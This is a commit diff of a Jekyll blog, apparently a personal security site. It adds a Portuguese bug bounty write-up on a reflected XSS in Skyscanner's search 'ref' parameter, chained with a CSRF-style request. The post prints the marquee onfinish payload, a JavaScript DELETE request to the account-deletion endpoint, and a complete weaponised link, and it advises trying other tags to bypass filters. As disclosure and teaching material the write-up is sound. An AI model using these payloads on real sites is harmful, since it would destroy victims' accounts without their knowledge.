

Before and after one commit to vitor-fernandes/vitor-fernandes.github.io, a Jekyll site: the page built from _posts/2019-06-07-Bug-Bounty-02.markdown, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Bug Bounty 03

```diff
--- a/_posts/2019-06-03-Bug-Bounty-02.markdown
+++ b/_posts/2019-06-07-Bug-Bounty-02.markdown
@@ -1,7 +1,7 @@
 ---
 layout: post
 title:  "Bug Bounty 02 - Account Takeover via IDOR"
-date:   2019-06-03 11:08:00
+date:   2019-07-03 11:08:00
 categories: All
 img: bug_bounty.png
 ---
--- /dev/null
+++ b/_posts/2019-06-10-Bug-Bounty-03.markdown
@@ -0,0 +1,117 @@
+---
+layout: post
+title:  "Bug Bounty 03 - Deleting User's Account via Reflected XSS chained with CSRF"
+date:   2019-10-03 11:08:00
+categories: All
+img: bug_bounty.png
+---
+<p align="justify">
+Salve rapaziada, no post de hoje irei falar sobre uma vulnerabilidade que encontrei no programa de bug bounty do <a href="https://bugcrowd.com/skyscanner" target="_blank">Skyscanner</a> na plataforma <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a>.
+</p>
+
+<p align="justify">
+Enquanto navegava pela aplicação, notei que ao fazer uma busca, haviam vários parâmetros sendo passados pelo método GET, similar a este resultado:
+</p>
+
+<p>
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/kef/190615/190622/?adults=1&children=0&adultsv2=1&childrenv2=&infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home#results</code>
+<br>
+<br>
+</p>
+
+<p align="justify">
+Dei uma no código fonte e vi que o a URL não era refletida no código fonte da aplicação.
+<br>
+<br>
+Depois de pesquisar um pouco mais, notei que ao realizar uma busca por locais que não haviam viagens a URL era refletida no código. Utilizei o seguinte link para encontrar essa funcionalidade:
+</p>
+
+<p>
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home&ampcurrency=BOB</code>
+<br>
+<br>
+<img src="/images/bug_bounty/bb03/bb03-00.png"/>
+</p>
+
+<p align="justify">
+Com isso, fui injetando algumas tags nos parâmetros e vendo se eles eram refletidos sem algum tipo de sanitização. Notei que ao inserir algo no parâmetro <i>ref</i> ele era refletido no código fonte e adivinhem... sem nenhum tipo de sanitização.
+<br>
+<br>
+Ao inserir determinados payloads, eu recebia um código 500 e a aplicação era redirecionada para uma página de erro.
+<br>
+<br>
+Depois de algumas tentativas, decidi inserir uma tag que já havia utilizado em outros programas de bug bounty:
+<br>
+<code>">&ltmarquee>rapt00r&lt/marquee></code>
+<br>
+<br>
+Esta tag cria uma espécie de painel (tipo aqueles painéis de LED que as letras ficam indo de uma ponta a outra do painel)
+<br>
+<br>
+E bingo!!! O nosso marquee foi adicionado com sucesso no código. Infelizmente não tirei print dessa parte e nem do código fonte pois fiquei muito animado ao ver que realmente funcionou :)
+</p>
+
+<p align="justify">
+Pesquisando um pouco mais sobre como utilizar a tag marquee, notei que ela suporta um evento JS chamado <i>onfinish</i>.
+<br>
+<br>
+Então, quando o marquee era finalizado, podíamos executar códigos Javascript. Infelizmente também esqueci de tirar print dessa parte :(
+<br>
+<br>
+Dependendo do tamanho do painel que era criado, demoraria muito para o banner finalizar. Então adicionei outros 2 atributos ao nosso marquee: <i>width</i> e <i>loop</i>, que servem para você definir o tamanho e o número de vezes que você quer que o banner apareça.
+</p>
+
+<p align="justify">
+Bom, nesse ponto nosso payload estava da seguinte forma:
+<br>
+<code>">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee></code>
+<br>
+</p>
+
+<p>
+Agora, o link junto com o payload ficaria da seguinte forma:
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=home">&ltmarquee width=0 loop=1 onfinish="alert(1)">rapt00r&lt/marquee>&ampcurrency=BOB</code>
+</p>
+
+<p align="justify">
+E quando o usuário acessava, ele veria o alerta em sua tela :)
+</p>
+
+<p align="justify">
+Decidi então encadear com um CSRF para realizar o account takeover, mas infelizmente não havia a opção de troca de email (e para trocar a senha era necessário saber a senha antiga :/ )
+</p>
+
+<p align="justify">
+Sem perder as esperanças, notei que havia a opção de deletar a conta. Hmm, interessante...
+<br>
+<br>
+Para realizar a exclusão da conta era necessário enviar uma request (necessário que o usuário esteja autenticado) do tipo <i>DELETE</i> para o endpoint <i>/profile/user/delete-account</i> e a conta seria deletada.
+</p>
+
+<p align="justify">
+Para finalizar, irei deixar o código da requisição que utilizei no evento JS para realizar a exclusão da conta do usuário que visitasse o link:
+</p>
+
+<code>var request = new XMLHttpRequest();
+request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false);
+request.send();</code>
+
+<p align="justify">
+<br>
+E o link final para explorar a vulnerabilidade ficou da seguinte forma:
+</p>
+<p>
+<code>https://www.skyscanner.com.br/transporte/passagens-aereas/jpa/ad/190411/190418/?adults=1&children=0&adultsv2=1&childrenv2=&]infants=0&cabinclass=economy&rtn=1&preferdirects=false&outboundaltsenabled=false&inboundaltsenabled=false&ref=https://www.google.com"/> &ltmarquee loop=1 width=0 onfinish="var request = new XMLHttpRequest(); request.open('DELETE', 'https://www.skyscanner.com.br/profile/user/delete-account', false); request.send();">&lt/marquee>&ampcurrency=BOB</code>
+</p>
+
+<p align="justify">
+Como PoC desta vulnerabilidade, deixo um vídeo e vocẽs podem acessar pelo link:
+<br>
+<iframe width="560" height="315" src="https://www.youtube.com/embed/ZuyLvAPg-TQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
+</p>
+
+<p align="justify">
+É isso aí galera, recomendo utilizar outras tags além do <i>iframe, img, script</i>, pode ser que vocês consigam dar esse "bypass" da mesma forma que eu acabei de mostrar :)
+</p>
+
+Valeuuu !!!
```
Also changed, not shown: images/bug_bounty/bb03/bb03-00.png (added).
